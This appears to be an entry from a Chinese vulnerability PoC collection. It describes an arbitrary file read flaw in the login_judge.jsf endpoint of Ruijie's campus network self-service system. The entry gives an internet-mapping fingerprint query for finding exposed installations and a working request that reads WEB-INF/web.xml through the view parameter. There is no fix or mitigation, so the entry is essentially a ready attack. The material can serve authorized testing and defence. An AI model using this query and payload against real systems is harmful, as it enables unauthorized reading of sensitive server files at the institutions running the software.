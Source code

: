 # 

# 锐捷 校园网自助服务系统 login_judge.jsf 任意文件读取漏洞

## 漏洞描述

锐捷 校园网自助服务系统 login_judge.jsf 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

锐捷 校园网自助服务系统

## 网络测绘

```
body="校园网自助服务系统"
```

## 漏洞复现

登陆页面

![image-20231116142459917](images/image-20231116142459917.png)

poc

```
/selfservice/selfservice/module/scgroup/web/login_judge.jsf?view=./WEB-INF/web.xml%3F
```

![image-20231116142521368](images/image-20231116142521368.png)
